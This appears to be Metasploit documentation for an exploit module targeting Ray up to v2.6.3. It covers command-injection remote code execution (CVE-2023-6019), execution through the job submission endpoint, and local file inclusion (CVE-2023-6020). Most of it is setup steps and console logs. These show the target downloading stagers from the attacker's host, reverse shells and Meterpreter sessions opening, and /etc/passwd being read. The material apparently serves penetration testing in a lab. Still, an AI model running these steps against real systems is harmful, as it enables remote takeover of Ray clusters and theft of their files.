 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to three vulnerabilities:

    * RCE via cpu_profile command injection vulnerability (CVE-2023-6019)
    * RCE via the agent job submission endpoint (No CVE)
    * local file inclusion (CVE-2023-6020)

This module exploits all three vulnerabilities.

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/ray_cmdi_rce_lfi`
4. Do: `set rhost <rhost>`
5. Optional: `set rport <port>`
6. Do: `set lhost <attacker-ip>`
7. Optional: `set CVE <cve>`
8. Do: `run`
9. You should get a shell or meterpreter

## Options

### ATTACK (required)

This is the attack type to use. Default is CMDi(`CVE-2023-6019`). but RCE(No CVE) and LFI(`CVE-2023-6020`) can also be chosen.

### COMMAND (Optional)

This is the command to execute. Default is `echo 'Hello from Metasploit'`. This is used when ATTACK is set to `CMDi` or `RCE`.

### FILEPATH (Optional)

This is the file to read. Default is `/etc/passwd`. This is used when ATTACK is set to `LFI`.

## Scenarios

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CVE-2023-6019, target 0)
```
msf6 > use exploit/linux/http/ray_cmdi_rce_lfi
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve CVE-2023-6019
cve => CVE-2023-6019
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 0
target => 0
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Grabbed node info, pid: 124, ip: 172.17.0.2
[+] Command execution seems to have been successful. Status code: 500
[*] Using URL: http://192.168.56.1:8080/VvzBBm8
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /VvzBBm8
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.56.6
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:40554) at 2024-08-05 08:26:42 +0900
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CVE-2023-6019, target 1)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve CVE-2023-6019
cve => CVE-2023-6019
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 1
target => 1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Grabbed node info, pid: 124, ip: 172.17.0.2
[+] Command execution seems to have been successful. Status code: 500
[*] Using URL: http://192.168.56.1:8080/tMBeDO
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /tMBeDO
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:39652) at 2024-08-05 08:28:46 +0900
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (RCE, target 0)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve RCE 
cve => RCE
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 0
target => 0
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Command execution successful. Job ID: 'raysubmit_TKeWeJRKQZFkU2zN' Submission ID: 'raysubmit_TKeWeJRKQZFkU2zN'
[*] Using URL: http://192.168.56.1:8080/roy19E
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /roy19E
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (38 bytes) to 192.168.56.6
[*] Command shell session 3 opened (192.168.56.1:4444 -> 192.168.56.6:43312) at 2024-08-05 08:40:06 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (RCE, target 1)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve RCE
cve => RCE
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 1
target => 1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Command execution successful. Job ID: 'raysubmit_g4jZ3U5aQu4gYrFy' Submission ID: 'raysubmit_g4jZ3U5aQu4gYrFy'
[*] Using URL: http://192.168.56.1:8080/ZMCKWGQCHh
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /ZMCKWGQCHh
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 4 opened (192.168.56.1:4444 -> 192.168.56.6:42666) at 2024-08-05 08:41:22 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CVE-2023-6020)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve CVE-2023-6020
cve => CVE-2023-6020
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ray:x:1000:100::/home/ray:/bin/bash
```
